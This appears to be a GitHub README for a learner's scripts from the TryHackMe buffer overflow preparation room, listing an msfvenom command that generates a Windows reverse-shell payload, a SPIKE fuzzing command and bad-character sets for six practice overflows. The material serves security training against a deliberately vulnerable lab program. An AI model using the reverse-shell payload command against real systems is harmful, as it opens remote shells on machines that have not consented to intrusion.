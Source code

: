 # THM_Buffer-Overflow-Prep

Each folder numbered from 1 to x contains the scripts from fuzzing to the stage of creating a final **exploit**

Buffer overflow Room can be Found at:--> https://tryhackme.com/room/bufferoverflowprep

**command used for shellcode generation to Fit with scripts**

     msfvenom -p windows/shell_reverse_tcp LHOST=<The-Listening-ip> LPORT=<Listening-port> -f py -b "<badChars-specific-to-overflow>" EXITFUNC=thread -v shellcode

**command to be used with spike scripts to find payload triggering the crash**

     generic_send_tcp <target-ip> 1337{this port is specific to the oscp.exe} fuzz.spk 0 0
    
 More on spike:--> https://resources.infosecinstitute.com/topic/intro-to-fuzzing/
  
# About Fuzz.py Scripts
     
**The fuzz.py scripts will not Display the output Till you press CTRL + C {yeah I know add a except statement but i find no use in it lol} For this very reason a time dealy of 5 seconds is Added so as soon as you see the application crash in immunity press CTRL + C{in 5 sec delay} to stop the script and this would also give us the bytes at which application crashed**
     
     
# OVERFLOW 1

**Bad Chars:--> \x00\x07\x2e\xa0**


# OVERFLOW 2

**Bad Chars:--> \x00\x23\x3c\x83\xa0\xba**

# OVERFLOW 3

**Bad Chars:--> \x00\x11\x40\x5f\xb8\xee**

# OVERFLOW 4

**Bad Chars:--> \x00\xa9\xcd\xd4**

# OVERFLOW 5

**Bad Chars:--> \x00\x16\x2f\xf4\xfd**

# OVERFLOW 6

**Bad Chars:--> \x00\x08\x2c\xad**


# NOTE

  *The badChars scripts present in each overflow directory contains a badChars variable from which also badchars specific to the overflow have been eliminated* 
  
 **scripts are to be run with python but you may adjust some encoding in place to make them work with python3** 
 
**Other Overflows will be added as I do them**
